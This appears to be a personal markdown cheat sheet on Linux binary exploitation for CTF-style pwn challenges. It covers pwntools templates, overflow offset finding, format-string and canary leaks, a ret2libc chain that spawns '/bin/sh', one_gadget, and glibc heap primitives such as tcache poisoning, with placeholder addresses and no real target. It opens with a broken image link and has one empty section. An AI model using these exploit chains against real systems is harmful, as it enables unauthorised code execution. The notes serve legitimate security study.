

#reversing #pwn #rop #heap #format-string

# Linux Binary Exploitation (pwn)

Related: [buffer-overflow](buffer-overflow.md) · [process-injection-detection](../Linux/process-injection-detection.md) · [assembly](assembly.md)

## Contents
- [Triage](#triage)
- [Technique Decision Flow](#technique-decision-flow)
- [pwntools Skeleton](#pwntools-skeleton)
- [Stack Smashing — No Canary / No PIE](#stack-smashing--no-canary--no-pie)
- [Leaking Addresses (PIE / ASLR / Canary defeat)](#leaking-addresses-pie--aslr--canary-defeat)
- [ret2libc](#ret2libc)
- [Heap Exploitation (glibc)](#heap-exploitation-glibc)
- [GDB + pwndbg/GEF](#gdb--pwndbggef)

## Triage
```bash
file ./binary
checksec --file=./binary
```
Architecture/bitness, then protections: RELRO, Stack Canary, NX, PIE, RWX segments — this decides which technique applies.

```bash
pwninit
```
Auto-detects the binary + libc in the current directory, patches the binary to use that libc via patchelf, and scaffolds a `solve.py` pwntools template.

## Technique Decision Flow


## pwntools Skeleton
```python
from pwn import *
context.binary = elf = ELF('./binary')
libc = ELF('./libc.so.6')
p = process('./binary')          # or: p = remote('target', 1337)
p.sendline(b'A' * 40 + p64(0xdeadbeef))
p.interactive()
```
Standard local/remote exploit scaffold; `p64()`/`p32()` pack addresses for the target's pointer width.

## Stack Smashing — No Canary / No PIE
```python
payload = b'A' * offset + p64(ret_addr)
```
Classic overwrite once the offset to the saved return address is known (via pattern/`cyclic`).
```python
from pwn import cyclic, cyclic_find
payload = cyclic(200)
offset = cyclic_find(0xdeadbeef)   # value read out of a crash/register at the overwrite point
```
Generate a De Bruijn pattern and resolve the exact overflow offset from the crash.

## Leaking Addresses (PIE / ASLR / Canary defeat)
```python
p.sendline(b'%7$p')
leak = int(p.recvline().strip(), 16)
```
Format-string leak — if user input reaches a `printf(buf)` with no format specifier, `%N$p` reads the Nth stack value as a pointer; walk `N` to find a return address, libc pointer, or canary.

```python
canary = u64(p.recv(8))
```
Leak the stack canary byte-by-byte or via an info leak before overwriting it (an overwrite that lands exactly on the canary with the right value doesn't trip the check).

## ret2libc
```bash
ROPgadget --binary ./binary --only "pop|ret"
```
Find `pop reg; ret` gadgets to build a call to a libc function (commonly `system`) with a controlled argument.
```python
libc.address = leaked_libc_addr - libc.symbols['puts']
system = libc.symbols['system']
binsh = next(libc.search(b'/bin/sh\x00'))
pop_rdi = 0xdeadbeef   # gadget address, found via ROPgadget
payload = b'A' * offset + p64(pop_rdi) + p64(binsh) + p64(system)
```
Compute libc's base from a leaked symbol address, then chain `pop rdi; ret` → `/bin/sh` pointer → `system` to get a shell (64-bit calling convention).

```bash
one_gadget ./libc.so.6
```
Find single-instruction-sequence "one gadgets" in libc that pop a shell directly if their register/stack constraints happen to be satisfiable — faster than a full ret2libc chain when it lines up.

## Heap Exploitation (glibc)
```python
p.sendline(b'1')              # allocate chunk A
p.sendline(b'2')              # free chunk A
p.sendline(b'1')              # allocate chunk B, reusing A's freed memory (UAF)
```
Use-After-Free pattern against a menu-driven heap challenge — freed chunk still referenced and written through a stale pointer.

> [!IMPORTANT]
> Identify the glibc version first (`./libc.so.6` or `strings libc.so.6 | grep GLIBC`) before picking a primitive — exploit chains are version-specific (tcache was introduced in 2.26).

| Primitive | Idea |
|---|---|
| `malloc_consolidate` | Forces consolidation of free chunks into the unsorted bin, shifting bin state to set up another primitive |
| Tcache poisoning | Corrupt a freed tcache chunk's forward pointer so malloc returns an attacker-chosen address |
| House of Force | Overwrite the top chunk's size so the next allocation lands at an arbitrary address |
| House of Orange | Abuse an unsorted-bin free via a corrupted top-chunk size when there's no `free()` primitive, often chained into `_IO_FILE` exploitation |
| Fastbin Dup | Free the same fastbin chunk twice to obtain two overlapping allocations |

Which primitive applies depends on the glibc version and the bug class (double-free, off-by-one, UAF).

## GDB + pwndbg/GEF
```bash
pip3 install gef && echo 'source ~/.gdbinit-gef.py' >> ~/.gdbinit
gdb ./binary
```
Install GEF (or pwndbg) for heap/register/exploit-aware GDB views (`heap bins`, `vmmap`, `telescope`).
```text
pattern create 200
pattern search $rsp
heap bins
vmmap
```
Generate/locate a cyclic pattern, and inspect heap bin state / memory mappings.

See [buffer-overflow](buffer-overflow.md) for the Windows x86 stack-overflow fundamentals this builds on.
